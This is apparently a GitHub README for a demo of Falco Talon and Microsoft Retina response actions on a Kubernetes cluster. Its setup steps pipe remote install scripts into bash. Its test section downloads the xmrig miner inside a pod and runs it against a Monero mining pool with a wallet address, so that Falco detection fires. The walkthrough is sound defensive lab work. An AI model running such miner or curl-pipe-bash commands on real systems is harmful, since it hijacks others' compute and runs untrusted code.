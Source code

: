 # Falco-Retina-Demo
Quick Demo of Falco Talon + Retina Response Actions

## Setting up the Kubernetes cluster

On an ```Ubuntu 20.04``` (```t3.xlarge```) EC2 instance, we will install the containerD runtime components:
```
curl https://raw.githubusercontent.com/xxradar/install_k8s_ubuntu/main/setup_latest.sh | bash
```

By default, we will face ```Taints``` that affect the scheduling of our pods:
```
kubectl get nodes
```
Simply remove the taints on our ```control plane``` node.
```
kubectl taint node $(kubectl get nodes --selector='node-role.kubernetes.io/control-plane' -o jsonpath='{.items[0].metadata.name}') node-role.kubernetes.io/control-plane:NoSchedule-
```
Check the taints on your node:
```
kubectl describe node ip-10-0-14-237 | grep "Taints"
```
Manually remove the taints:
```
kubectl taint nodes ip-10-0-14-237 disk-pressure=true:NoSchedule-
```

We are going to install ```Cilium``` as our CNI of choice to ensure networking on the cluster
```
curl https://raw.githubusercontent.com/xxradar/k8s-calico-oss-install-containerd/refs/heads/main/cilium_install.sh | bash
```

We will also need to install [Helm for Ubuntu](https://helm.sh/docs/intro/install/#from-apt-debianubuntu) for deploying all of these components:
```
curl https://baltocdn.com/helm/signing.asc | gpg --dearmor | sudo tee /usr/share/keyrings/helm.gpg > /dev/null
sudo apt-get install apt-transport-https --yes
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/helm.gpg] https://baltocdn.com/helm/stable/debian/ all main" | sudo tee /etc/apt/sources.list.d/helm-stable-debian.list
sudo apt-get update
sudo apt-get install helm
```

## Installing Falco + Talon
```
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm repo update
```

Check to see that there is a chart for Falco Talon
```
helm search repo falcosecurity/falco-talon
```

Install Falco without the Talon component. <br/>
Simply configure the falcosidekick component to send events to the future Talon deployment via webhook.
```
helm install falco falcosecurity/falco --namespace falco \
  --create-namespace \
  --set tty=true \
  --set falcosidekick.enabled=true \
  --set falcosidekick.config.talon.address=http://falco-talon:2803
```

Check that the Falco pod is running successfully:
```
kubectl get pod -n falco
```

### Install Falco Talon
We can use helm to deploy Falco Talon from the official helm chart repository, part of falcosecurity organization:
```
git clone https://github.com/falcosecurity/charts.git
git checkout tags/falco-talon-0.3.0
cd charts/charts/falco-talon/
```

Remove the existing rule and download (wget) our customized Falco Talon [rules.yaml](https://github.com/NigelDouglas30/Falco-Retina-Demo/blob/main/talon-rules.yml) file containing the Talon rules in response to specific Falco events:
```
rm rules.yaml
wget -O rules.yaml https://raw.githubusercontent.com/NigelDouglas30/Falco-Retina-Demo/refs/heads/main/talon-rules.yml
```

Now, we'll be deploying Falco Talon using the local chart, therefore Helm will use the rules file downloaded above as the official rules.
<br/><br/>
Install Falco-Talon:
```
helm upgrade --install falco-talon -n falco --create-namespace .
```
Falco Talon will be deployed with the custom rules content within the Helm-formatted rules.yaml file that is now present on your filesystem.
<br/><br/>
If the falco-talon pods are running, we can progress to the next lab scenario:
```
kubectl get pods -n falco -w | grep talon
```


## Installing Retina
Advanced Mode with Local Context (with Capture support) <br/>
```https://retina.sh/docs/Installation/Setup#basic-mode-with-capture-support```

Annotations let you specify which Pods to observe (create metrics for). <br/>
To configure this, specify ```enableAnnotations=true``` in Retina's helm installation or ConfigMap.
```
VERSION=$( curl -sL https://api.github.com/repos/microsoft/retina/releases/latest | jq -r .name)
helm upgrade --install retina oci://ghcr.io/microsoft/retina/charts/retina \
    --version $VERSION \
    --namespace kube-system \
    --set image.tag=$VERSION \
    --set operator.tag=$VERSION \
    --set image.pullPolicy=Always \
    --set logLevel=info \
    --set os.windows=true \
    --set operator.enabled=true \
    --set operator.enableRetinaEndpoint=true \
    --skip-crds \
    --set enabledPlugin_linux="\[dropreason\,packetforward\,linuxutil\,dns\,packetparser\]" \
    --set enablePodLevel=true \
    --set enableAnnotations=true
```

An exception: currently all Pods in ```kube-system``` are always monitored.

## Test Process

Creat workload
```
kubectl apply -f https://raw.githubusercontent.com/JosephYostos/Falco-Retina-Demo/refs/heads/main/demo-manifests.yaml
```

Check labels, annotation, and networkpolicy
```
kubectl get pod tcp-client-0  --show-labels
kubectl describe pod tcp-client-0  | grep Annotation
kubectl get networkpolicy
```
Access the client pod 

```
kubectl exec -it tcp-client-0 -- sh
```

check logs
```
kubectl logs -n falco -l app.kubernetes.io/instance=falco-talon --max-log-requests=10
```

## Test Process

Create an Ubuntu test workload
```
kubectl apply -f https://raw.githubusercontent.com/nigel-falco/oss-security-workshop/main/k03-rbac/ubuntu-pod.yaml
```

```
kubectl exec -it $(kubectl get pods -l app=ubuntu -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

```
kubectl logs -n falco -l app.kubernetes.io/instance=falco-talon --max-log-requests=10
```

```
kubectl get events -n default -w
```

```
kubectl logs -l app.kubernetes.io/name=falco -n falco -c falco -f | grep -E "xmrig|mitre"
```

Download the ```xmrig``` mining package from the official Github project:
```
curl -OL https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz
```
Unzipping the mining binary package
```
tar -xvf xmrig-6.16.4-linux-static-x64.tar.gz
```
Changing directory to the newly-downloaded miner folder
```
cd xmrig-6.16.4
```
Run the miner with the malicious known cruptomining FQDN and port number that would be flagged by Falco:
```
./xmrig --donate-level 8 -o xmr-us-east1.nanopool.org:14433 -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero
```
